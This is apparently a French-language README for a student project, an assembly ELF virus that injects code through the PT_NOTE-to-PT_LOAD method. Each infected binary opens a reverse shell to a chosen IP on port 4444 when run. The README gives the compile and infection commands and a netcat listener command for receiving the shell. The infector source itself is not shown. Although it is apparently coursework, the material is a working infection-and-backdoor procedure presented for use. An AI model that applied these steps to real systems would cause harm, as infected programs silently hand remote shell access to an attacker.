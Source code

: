# tp_note-tp_load-asm

**Lucas MILLER 3SI4**

Ce projet est un programme d'infection d'ELF à travers la méthode pt_note to pt_load.

Il n'est **pas** nécessaire de désactiver l'ASLR.
Ce programme est dynamique et ne nécessite donc pas de modifier le code lors de l'utilisation sur un autre programme.
Une fois infecté, le programme va, lors de son lancement, exécuter un reverse shell sur l'IP choisie.
L'IP peut être choisie lors du lancement, mais le port sera toujours 4444.

Il fonctionne sur les ELF avec les arguments -no-pie.

### Voici les commandes à lancer pour vérifier son bon fonctionnement.

Compiler le programme sain. Il peut être modifié en amont.
```
gcc -no-pie saine-code/safe_code.c -o saine-code/safe_code
```

Compilation de l'infecteur :
Il se compile ainsi :
```
nasm -f elf64 -o main/pt_note_to_pt_load_infector.o main/pt_note_to_pt_load_infector.s && ld -o main/pt_note_to_pt_load_infector main/pt_note_to_pt_load_infector.o
```
Puis lancement du programme :
Il va infecter le programme donné en argument
```
main/pt_note_to_pt_load_infector saine-code/safe_code
```

## Pour vérifier le reverse shell : 
```
saine-code/safe_code
```

Éxécution normal du programme

```
saine-code/safe_code
```

En parallèle :

```
nc -lnvp 4444

```


